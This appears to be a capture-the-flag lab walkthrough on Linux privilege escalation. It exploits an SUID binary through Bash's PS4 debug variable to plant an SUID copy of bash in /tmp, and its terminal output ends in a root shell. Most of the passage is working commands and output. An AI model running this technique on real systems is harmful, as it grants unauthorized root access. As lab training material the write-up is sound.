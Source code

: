`No answer needed`

## SUID / SGID Executables - Abusing Shell Features (#2)

Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements.

Run the **/usr/local/bin/suid-env2** executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

**Remember to remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!**

```
rm /tmp/rootbash
exit
```

1. Read and follow along with the above.

```
user@debian:~$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/usr/sbin/service apache2 start
basename /usr/sbin/service
VERSION='service ver. 0.91-ubuntu1'
basename /usr/sbin/service
USAGE='Usage: service < option > | --status-all | [ service_name [ command | --full-restart ] ]'
SERVICE=
ACTION=
SERVICEDIR=/etc/init.d
OPTIONS=
'[' 2 -eq 0 ']'
cd /
'[' 2 -gt 0 ']'
case "${1}" in
'[' -z '' -a 2 -eq 1 -a apache2 = --status-all ']'
'[' 2 -eq 2 -a start = --full-restart ']'
'[' -z '' ']'
SERVICE=apache2
shift
'[' 1 -gt 0 ']'
case "${1}" in
'[' -z apache2 -a 1 -eq 1 -a start = --status-all ']'
'[' 1 -eq 2 -a '' = --full-restart ']'
'[' -z apache2 ']'
'[' -z '' ']'
ACTION=start
shift
'[' 0 -gt 0 ']'
'[' -r /etc/init/apache2.conf ']'
'[' -x /etc/init.d/apache2 ']'
exec env -i LANG= PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin TERM=dumb /etc/init.d/apache2 start
Starting web server: apache2httpd (pid 1479) already running
.
user@debian:~$ /tmp/rootbash -p
rootbash-4.1# whoami
root
```